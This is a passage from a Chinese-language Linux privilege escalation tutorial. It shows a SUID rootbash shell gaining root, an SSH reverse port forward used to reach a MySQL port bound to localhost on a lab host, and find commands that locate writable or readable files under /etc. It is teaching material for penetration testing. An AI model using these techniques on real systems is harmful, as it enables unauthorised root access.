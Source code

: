 ```php
1 row in set (0.01 sec)

mysql> exit
Bye
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

![image-20210630133158537](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7de5351bc98f3003061b1962d73ca70721d24bdc.png)

看看目标机器正在监听的端口

![image-20210630134221883](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-db11533503efbc4ba614f359cd3bf25f13b21316.png)

但是它绑定到 本地主机地址：127.0.0.1 所以我们不能从外部访问它

### 端口转发

某些情况下，root过程可能受约束于内部端口  
如果由于某种原因，漏洞攻击不能在目标机器上本地运行，则端口可以使用SSH转发到本地机器：

```php
ssh -R <kali本地端口>:127.0.0.1:< 目标端口 ><苏塞纳梅>@<kali本地IP>
ssh -R 5555:127.0.0.1:3306 root@192.168.175.130
```

0x06.脆弱的文件权限
============

前言
--

如果某些系统文件的权限太弱，则可以利用某些系统文件执行权限升级。  
如果系统文件有我们可以读取的机密信息，则可用于访问root  
如果可以写入系统文件，我们就可以修改，操作系统的工作方式并以这种方式获得root权限

相关的命令
-----

在`/etc:`中查找所有可写文件：

```php
find /etc -maxdepth 1 -writable -type f
```

在`/etc:`中查找所有可读文件：

```php
find /etc -maxdepth 1 -readable -type f
```

查找可写入的所有目录：

```php
find / -executable -writable -type d 2> /dev/null
```
